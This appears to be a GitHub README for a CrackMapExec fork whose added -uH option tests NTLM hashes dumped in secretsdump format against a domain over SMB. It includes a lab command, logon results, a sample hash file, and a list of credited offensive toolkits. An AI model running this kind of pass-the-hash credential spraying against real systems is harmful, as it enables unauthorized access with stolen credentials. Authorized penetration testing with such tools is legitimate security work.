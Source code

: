 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)

# CrackMapExec fork to include features

## Features Added

### Test users and hash pairs from file(s) in "secretdump" format (-uH parameter)
The idea is to be able to take file(s) with multiple lines with useres and respective NTLM hashes in "secretdump" formatting, and test those using SMB for example againist another domain, or to retest these credentials obtained before to see if they are still working. The parameter -d <domain> is required.

**Example:**
```
(CrackMapExec) ~/t/CrackMapExec> cme smb 192.168.56.100 -d ramlab -uH hashes.txt
SMB         192.168.56.100  445    DC01             [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC01) (domain:ramlab) (signing:True) (SMBv1:True)
SMB         192.168.56.100  445    DC01             [-] ramlab\testuser22 4139c3eafc40242c4317313ea08d00b7 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\aaandy 4b291acc6fd3ae12f92ec3e587ab5abe STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\mnfffi 70e81ac21b3b2aedf0b4b601a6226d2d STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser3 4139c3eafc40242c4317313ea08d00b7 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
```

hashes.txt example file:
```
testuser22:1110:aad3b435b51404eeaad3b435b51404ee:4139c3eafc40242c4317313ea08d00b7:::
bbbbb\aaandy:1116:aad3b435b51404eeaad3b435b51404ee:4b291acc6fd3ae12f92ec3e587ab5abe:::
testuser2:1110:aad3b435b51404eeaad3b435b51404ee:85a165727adfbd6550626d515e4e1ef3:::
bbbbbb\mnfffi:1141:aad3b435b51404eeaad3b435b51404ee:70e81ac21b3b2aedf0b4b601a6226d2d:::
bbbbbb\btoaan:1148:aad3b435b51404eeaad3b435b51404ee:0c391a86d139b2a17cf3260a06387558:::
aaaaaa\testuser3:1111:aad3b435b51404eeaad3b435b51404ee:4139c3eafc40242c4317313ea08d00b7:::
testuser2:1110:aad3b435b51404eeaad3b435b51404ee:85a165727adfbd6550626d515e4e1ef3:::
bbbbbb\btoaan:1148:aad3b435b51404eeaad3b435b51404ee:0c391a86d139b2a17cf3260a06387558:::   
```

# Acknowledgments
**(These are the people who did the hard stuff)**

Original repository:
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) :+1:

This project was originally inspired by:
- [smbmap](https://github.com/ShawnDEvans/smbmap)
- [CredCrack](https://github.com/gojhonny/CredCrack)
- [smbexec](https://github.com/pentestgeek/smbexec)

Unintentional contributors:

- The [Empire](https://github.com/PowerShellEmpire/Empire) project
- @T-S-A's [smbspider](https://github.com/T-S-A/smbspider) script
- @ConsciousHacker's partial Python port of Invoke-obfuscation from the [GreatSCT](https://github.com/GreatSCT/GreatSCT) project

This repository contains the following repositories as submodules:
- [Impacket](https://github.com/CoreSecurity/impacket)
- [Pywinrm](https://github.com/diyan/pywinrm)
- [Pywerview](https://github.com/the-useless-one/pywerview)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
- [Mimikittenz](https://github.com/putterpanda/mimikittenz)
- [NetRipper](https://github.com/NytroRST/NetRipper)
- [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
- [SessionGopher](https://github.com/fireeye/SessionGopher)
- [Mimipenguin](https://github.com/huntergregal/mimipenguin)

# Documentation, Tutorials, Examples
See the project's [wiki](https://github.com/byt3bl33d3r/CrackMapExec/wiki) for documentation and usage examples

# Installation
Please see the installation wiki page [here](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Installation).
